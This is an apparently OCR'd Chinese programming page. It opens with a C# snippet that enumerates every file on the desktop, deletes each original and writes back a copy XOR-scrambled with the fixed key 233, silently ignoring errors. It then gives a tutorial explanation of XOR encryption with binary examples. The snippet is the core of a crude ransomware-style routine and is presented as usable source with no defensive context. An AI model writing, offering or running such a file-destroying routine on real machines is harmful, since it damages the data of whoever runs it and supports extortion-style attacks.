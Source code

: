 ```csharp
// 遍历桌面上的所有文件
foreach (string file in Directory.EnumerateFiles(desktop))
{
    try
    {
        // 读取文件内容到字节数组中
        byte[] buffer = File.ReadAllBytes(file);

        // 如果文件大小超过2GB，则不进行加密处理
        if (buffer.Length > (2L * 1024 * 1024 * 1024 - 2))
        {
            continue;
        }

        // 删除原始文件
        File.Delete(file);

        // 遍历字节数组中的每个字节，对其进行加密操作
        for (int i = 0; i < buffer.Length; i++)
        {
            buffer[i] = (byte)(buffer[i] ^ 233); // 将字节与数字233进行异或运算
        }

        // 将加密后的字节数组写回到原始文件中
        File.WriteAllBytes(file, buffer);
    }
    catch (Exception ex)
    {
        // 处理异常
    }
}

```

在 C# 中，异或运算符用符号“^”表示，表示两个二进制数每一位进行比较，若相同则该位为 0，若不同则该位为 1。例如，2 ^ 3 的结果为 1，其二进制表示分别为 10 和 11，因为只有第二位不同，所以结果为 01，即 1。在加密算法中，异或运算常用于对原始数据和密钥进行加密。

假设我们有一个二进制数 0101 和一个密钥 1010，我们可以将它们进行异或运算，得到加密后的结果。具体操作如下：
```yaml
0101
XOR 1010
= 1111
```
在这个例子中，每一位上的数字都与密钥上的对应位进行异或运算。第一位的 0 与密钥的 1 进行异或，得到 1；第二位的 1 与密钥的 0 进行异或，得到 1；第三位的 0 与密钥的 1 进行异或，得到 1；第四位的 1 与密钥的 0 进行异或，得到 1。最终结果为 1111，即加密后的数据。

解密的过程同样是对密文和密钥进行异或运算，得到原始数据。例如，我们可以将加密后的数据 1111 和密钥 1010 进行异或运算，得到原始数据：
```yaml
1111
XOR 1010
= 0101
```
因为异或运算具有反运算的特性，所以将加密后的结果再与密钥进行一次异或运算，即可得到原始数据。